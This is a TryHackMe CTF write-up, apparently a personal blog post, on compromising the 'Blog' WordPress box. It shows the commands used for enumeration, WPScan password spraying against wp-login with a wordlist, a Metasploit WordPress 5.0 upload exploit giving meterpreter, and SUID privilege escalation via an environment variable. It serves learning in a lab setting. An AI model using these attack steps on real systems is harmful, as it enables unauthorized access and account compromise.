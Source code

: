 ```yaml
---
weight: 3
title: "CTF writeup - Wordpress Blog"
date: 2021-05-21T22:15:40+08:00
lastmod: 2022-08-29T17:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: The tags on this box tells us that it involves Linux, Wordpress and CVE exploitation.
---
```


# TryHackMe: Wordpress Blog

![Untitled](/blog/headlogo.png)

### Description

"Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!
Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole..."

After reading the description of this room we know that its a box running Wordpress.

# Summary
1. Initial NMAP scan reveals some interesting bits: SMB shares and a WordPress admin panel.
2. Enumerating users with WPScan.
3. Password spraying with WPScan xmlrpc gives us access to the admin panel.
4. Exploiting a CVE in the WordPress upload functionality.
5. Establishing a meterpreter interactive session.
6. Finding interesting SUID binaries let's us escalate our privileges and read the user and root flags.

# Scanning & Enumeration

## NMAP

```bash
**nmap -sV -sC -A -T4 -p- 10.10.67.202**
```

{{< figure src="/blog/nmap_scan.png">}}

It shows us some Windows services like SMB and the admin interface for the wordpress site.

## Enum4linux

Lets check out SMB first.

```bash
enum4linux -a blog.thm
```

{{< figure src="/blog/enum4linux.png">}}

We got some shares and user names! Lets try and poke the BillySMB share with smbclient.

## SMBclient

```bash
smbclient [//blog.thm/BillySMB](https://blog.thm/BillySMB) -N
```

{{< figure src="/blog/smbclient.png">}}

Looks like we're chasing rabbits. This was a dead end...

# Gaining Access

Moving on to the wordpress site on port 80, we can see in the robots.txt that theres a /wp-admin/ page.

{{< figure src="/blog/login_portal.png">}}

We can enumerate users and try to password spray or brute force this login form with WPScan.

## WPScan

```bash
wpscan --url [http://blog.thm](http://blog.thm/) --enumerate u
```

{{< figure src="/blog/wpscan.png">}}

We also find some other interesting stuff, like XML-RPC etc.

Now that we know the user names, we can try to log in to the Wordpress admin panel.

```bash
wpscan --password-attack wp-login --usernames bjoel,kwheel --passwords /home/kali/wordlists/rockyou.txt --url  [http://blog.thm/wp-login.php](http://blog.thm/wp-login.php)
```

{{< figure src="/blog/password_attack.png">}}

SUCCESS! We found the password and we are now in the admin page area of the Wordpress blog:

{{< figure src="/blog/wp_admin.png">}}

Perhaps we can get a shell from here and gain initial access into the box...
We know that the WordPress version is running version 5.0, where WPScan revealed a known vulnerability.

Perhaps searchsploit has some info?

# Exploitation

```bash
searchsploit wordpress 5
```

{{< figure src="/blog/searchsploit.png">}}

This one looks interesting. A shell upload. Just what we were looking for.

Copying the shell to our working dir, and we inspect it with sublime text editor:

{{< figure src="/blog/copy_shell.png">}}

Apparently, this is a metasploit module which exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 <= 4.9.8.
It needs a user with “author” privileges to work.
Luckily for us, our Karen user has the right privileges.

## Reverse shell

And we got ourselves a nice meterpreter interactive session!

{{< figure src="/blog/meterpreter.png">}}

Time to enumerate some more...

# Privilege Escalation

The room wants us to find “user.txt”.
A quick search reveals it, but it looks like another dead end...

```bash
find / -name "user.txt" 2>/dev/null
```

{{< figure src="/blog/find_files1.png">}}

I usually upload linpeas or enum4linux or something like that, to automatically look for easy privilege escalation techniques.
But first, I always do a quick search for SUID binary files.

## SUID binary

```bash
find / -perm -u=s -type f 2>/dev/null
```

Interesting...the usual suspects are listed, but there is one among them that stands out.
I have never seen this binary “checker” before on GTFObins.

{{< figure src="/blog/meterpreter.png">}}

```bash

ls -lah /usr/sbin/checker
-rwsr-sr-x 1 root root 8.3K May 26  2020 checker
```

We can see that this binary will execute as root when we run it.

{{< figure src="/blog/rootbinary1.png">}}

It throws us an error code when we try to run it...
Lets check it out with ltrace

```bash
ltrace /usr/sbin/checker
/checker
Not an Admin
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

Analyzing the output, we can see that it just checks if we are admin with **getenv**.
We can modify this...

```bash
export admin=1
```

Now when we inspect the binary again:

{{< figure src="/blog/rootbinary2.png">}}

We are apparently set as admin and it runs bash, which will execute as root.

```bash

./usr/sbin/checker
whoami
```

{{< figure src="/blog/whoami.png">}}

Now we can finish up the room, and get the two flags!

```bash
find / -name "root.txt" 2>/dev/null
/root/root.txt
find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
cat /root/root.txt
cat /media/usb/user.txt
```

{{< figure src="/blog/rootbinary3.png">}}